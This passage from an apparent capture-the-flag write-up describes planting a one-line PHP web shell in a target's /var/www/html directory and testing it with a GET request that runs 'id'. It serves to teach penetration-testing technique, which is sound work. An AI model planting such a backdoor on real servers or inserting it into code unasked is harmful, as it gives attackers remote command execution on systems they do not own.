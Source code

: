 After creating the user, we switch to the new user created. To switch user we use the command : `su <USERNAME>`. After switching the user we switch directory to the `html` directory and we can start our enumerating process.

<figure><img src="../../.gitbook/assets/Untitled 13 (3).png" alt=""><figcaption></figcaption></figure>

We could see that there is nothing interesting is found in this directory. And we can infer that this directory contains all the files of the website that is hosted on the target.&#x20;

***

## Initial Access

Given that the `/var/www/html` share houses all the files of the website hosted on the target, we could craft a straightforward backdoor within this share and then attempt to establish a reverse shell connection to the target machine.

We can create a simple PHP backdoor in the current working directory :

```
Backdoor: `<?php echo system($_GET[”cmd”]) ?>`
```

<figure><img src="../../.gitbook/assets/Untitled 14 (2).png" alt=""><figcaption></figcaption></figure>

We can check whether our backdoor is working by sending a GET request using the cmd parameter that we have created using the backdoor.

To verify the functionality of our backdoor, we can send a GET request to `http://<IP-ADDRESS>/backdoor.php`, including the desired command to execute on the target machine as a parameter named `cmd`.

GET Request : `http://<IP-ADDRESS>/backdoor.php?cmd=id`

<figure><img src="../../.gitbook/assets/Untitled 15 (3).png" alt=""><figcaption></figcaption></figure>

Our backdoor is working as we get the id of the user of the target machine. Let’s note the user details for further enumeration.
